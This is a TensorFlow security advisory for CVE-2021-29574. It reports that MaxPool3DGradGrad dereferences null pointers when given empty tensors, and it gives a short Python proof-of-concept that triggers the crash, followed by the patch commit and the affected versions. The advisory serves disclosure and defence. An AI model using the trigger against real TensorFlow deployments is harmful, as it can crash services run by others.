 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2021-063.md
## TFSA-2021-063: Undefined behavior in `MaxPool3DGradGrad`

### CVE Number
CVE-2021-29574

### Impact
The implementation of `tf.raw_ops.MaxPool3DGradGrad` exhibits undefined behavior
by dereferencing null pointers backing attacker-supplied empty tensors:

```python
import tensorflow as tf

orig_input = tf.constant([0.0], shape=[1, 1, 1, 1, 1], dtype=tf.float32)
orig_output = tf.constant([0.0], shape=[1, 1, 1, 1, 1], dtype=tf.float32)
grad = tf.constant([], shape=[0, 0, 0, 0, 0], dtype=tf.float32)
ksize = [1, 1, 1, 1, 1]
strides = [1, 1, 1, 1, 1]
padding = "SAME"

tf.raw_ops.MaxPool3DGradGrad(
    orig_input=orig_input, orig_output=orig_output, grad=grad, ksize=ksize,
    strides=strides, padding=padding)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/72fe792967e7fd25234342068806707bbc116618/tensorflow/core/kernels/pooling_ops_3d.cc#L679-L703)
fails to validate that the 3 tensor inputs are not empty. If any of them is
empty, then accessing the elements in the tensor results in dereferencing a
null pointer.

### Patches
We have patched the issue in GitHub commit
[a3d9f9be9ac2296615644061b40cefcee341dcc4](https://github.com/tensorflow/tensorflow/commit/a3d9f9be9ac2296615644061b40cefcee341dcc4).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu
X-Team.
